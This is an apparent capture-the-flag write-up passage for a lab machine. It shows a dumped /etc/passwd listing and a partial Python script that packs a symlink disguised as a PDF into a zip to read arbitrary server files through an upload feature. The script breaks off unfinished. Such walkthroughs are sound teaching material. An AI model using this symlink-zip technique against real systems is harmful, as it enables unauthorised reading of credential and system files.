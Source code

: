 ```
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin                                                     
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin                                            
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin                                                             
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin                                               
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin                                                         
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin                                                                                                                            
systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin                                                                                                                         
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin                                                     
systemd-resolve:x:104:110:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin                             
pollinate:x:105:1::/var/cache/pollinate:/bin/false                                                       
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin                                                            
rektsu:x:1001:1001::/home/rektsu:/bin/bash                                                               
mysql:x:107:115:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:999:999::/var/log/laurel:/bin/false
```

Streamlining this process on the file system manually can be time-consuming. To enhance efficiency, I followed a video tutorial by 0xdf and developed a Python script to automate the entire procedure. This approach is particularly advantageous as the symlink doesn't need to physically exist on the disk. Consequently, there's no need to generate numerous files on our host to create symlinks to the PDF file.
```python
#!/usr/bin/env/python3

import sys
import io
import zipfile
import requests
import re

# Make sure we have enough arguments, namly the file to view
if len(sys.argv) != 2:
    print("Usage: %s <fileToView>" % sys.argv[0])
    sys.exit(1)

# Set host to zipping and file to view to the first argument e.g. python3 zipping.py /etc/passwd
host = "10.10.11.229"
fileToView = sys.argv[1]

# This lets us save our zip file that contains the pdf to memory rather than to disk
buffer = io.BytesIO()

# Puts the attributes and name into the buffer as a zip file
with zipfile.ZipFile(buffer, "w") as myZipFile:
    zipInfo = zipfile.ZipInfo('zon.pdf')
    zipInfo.create_system = 3
    zipInfo.external_attr |= 0xA0000000
    myZipFile.writestr(zipInfo, fileToView)

# This is a tuple that contains the name of the file, the buffer and the content type
```